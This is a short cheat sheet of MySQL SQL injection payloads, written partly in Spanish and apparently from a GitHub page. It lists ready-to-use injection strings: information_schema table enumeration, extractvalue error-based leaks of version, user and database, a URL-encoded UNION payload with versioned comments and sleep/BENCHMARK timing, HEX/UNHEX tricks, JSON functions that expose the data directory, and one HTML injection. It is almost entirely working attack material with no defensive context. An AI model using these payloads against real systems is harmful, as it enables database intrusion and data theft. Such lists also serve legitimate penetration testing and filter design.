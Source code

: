 ### SQL IF Function

```
SELECT IF(STRCMP('1','1'),'_Y000!_',table_name) FROM information_schema.tables

select IF(MID(@@version,1,1)='5',table_name,'_Y000!_') from information_schema.tables
```

### Sql inyection payload usando upper + reverse + right + sounds like

`select upper(reverse(right(reverse(table_name),100)))from information_schema.tables where table_schema sounds like database()`

### SQL injection usando doble reverse + right + if statement + HTML injection

`SELECT reverse(reverse(right(if(1=1,table_name,'<h3><font color=blue> Tablas:</h3>'),100))) from information_schema.tables`

### Sql inyection usando las funciones HEX-UNHEX

`SELECT UNHEX(HEX(table_name))from information_schema.tables`

### Inyección sql tipo error based usando Extractvalue

`1%20and+extractvalue(rand(),concat(0x7e,version(),0x7e,user()))--`

### Sql inyection payload usando reverse

`reverse(right(reverse(data),1))`

### Sql inyection payload usando extractvalue

`extractvalue(rand(),concat(CHAR(126),database(),CHAR(126)))`

### Sql inyection payload + url encode + timing  

`-7 %23%0AAND 0--%0A /*!12345UNION*/ /*!12345ALL*/ (/*!12345SELECT*/ 1,sleep(5),'soy vulnerable',BENCHMARK(1000000,MD5('true')),5,6,7,8,9,10,11,12,13)`

### JSON Generation Functions
```
select JSON_OBJECT(1, @@version)

select json_array(current_user())

select json_objectagg(1, @@datadir)

select json_arrayagg('_Y000!_')

```
